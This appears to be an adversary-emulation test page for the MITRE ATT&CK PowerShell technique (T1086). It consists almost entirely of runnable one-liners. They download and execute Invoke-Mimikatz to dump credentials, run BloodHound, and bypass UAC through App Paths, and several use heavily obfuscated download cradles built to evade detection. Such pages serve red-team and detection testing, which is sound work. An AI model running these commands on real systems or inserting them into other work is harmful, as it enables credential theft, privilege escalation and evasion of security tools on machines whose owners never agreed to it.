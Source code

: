# PowerShell

MITRE ATT&CK Technique: [T1086](https://attack.mitre.org/wiki/Technique/T1086)

### Download Mimikatz and Dump credentials

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

### Download and Execute BloodHound

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/BloodHound_Old.ps1'); Get-BloodHoundData"

### Download Mimikatz and Dump credentials

Just download it:

    (New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))

Minor obfuscation:

    (New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()

All obfuscation:

    Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))

Mimikatz - Cradlecraft PsSendKeys

    $url='https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr

### Invoke-AppPathBypass

Note: Windows 10 only

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

    Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass"

At prompt, to test:

    C:\Windows\System32\cmd.exe

### Obfuscated Powershell

Fancy obfuscation that reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

Second test:

    cmd /c "set apple=fish (cars ('http://bit.ly/L3g1tCrad1e).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

## Powershell Obfuscation

Provided by @danielbohannon

[Out-FINcodedCommand](https://github.com/danielbohannon/Out-FINcodedCommand/blob/master/README.md)


Setup:

    Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/danielbohannon/Out-FINcodedCommand/master/Out-FINcodedCommand.ps1')

Input:

    Out-FINcodedCommand -command "iex (iwr http://bit.ly/L3g1t).content" -FinalBinary powershell

Follow prompts to create variables.

Output:

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"
